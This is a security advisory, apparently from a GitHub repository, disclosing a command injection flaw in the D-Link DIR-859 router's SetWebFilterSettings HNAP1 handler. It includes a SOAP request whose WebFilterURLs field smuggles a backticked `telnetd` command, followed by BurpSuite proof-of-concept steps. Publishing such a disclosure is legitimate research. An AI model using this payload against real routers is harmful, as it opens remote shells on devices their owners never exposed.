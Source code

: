 # DIR-859 SetWebFilterSettings CMD Injection
Vulnerability for D-Link Router

Product: D-Link DIR-859  (Refer: http://www.dlink.com.cn/home/product?id=2960)

Version: The latest firmware -- 1.06B01 (Download link: https://support.dlink.com/productinfo.aspx?m=DIR-859)

![image](3.PNG)

Vulnerability Type: Command Injection

Author: David Chen

Institution: Technology Research Institute of Legendsec at Qi'anxin Group

Vulnerability description
-------------------------
An issue was discovered on D-Link DIR-859 devices with the latest firmware version 1.06B01. A command Injection vulnerability allows attackers to execute arbitrary OS commands via shell metacharacters in a crafted /HNAP1 request. This occurs when the SetWebFilterSettings function calls the system function with an untrusted input parameter named WebFilterURLs. Consequently, an attacker can execute any command remotely when they control this input.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetWebFilterSettings>
 <WebFilterMethod>DENY</WebFilterMethod>
 <NumberOfEntry>2</NumberOfEntry>
 <WebFilterURLs>
  <string>www.baidu.com</string>
 <string>www.sohu.com`telnetd`</string></WebFilterURLs>
</SetWebFilterSettings>
</soap:Body>
</soap:Envelope>
```

The "WebFilterURLs" parameter is a string formed as bleow:

```xml
<string>www.baidu.com</string>
<string>www.sohu.com`telnetd`</string>
```
So if someone can POST data like this, they will execute command "telnetd" at the router.

POC
-------------------------

Step1: Attacker need to call "SetWebFilterSettings" fuction that setting "WebFilterURLs" value, so to add URLs at the web page as below:

![image](5.jpg)


Step2: To modify the "WebFilterURLs" value, Attacker need to intercpet the POST action at BurpSuite after they type "Save" button, and insert command "telnetd" to the parameter as below:

![image](1.png)

Step3: After sending POST packet as above, this action can result in a RCE that executes a "telnetd" command at router as below:

![image](4.png)

P.S. Given the vendor's security, we only provide parts of this exploit.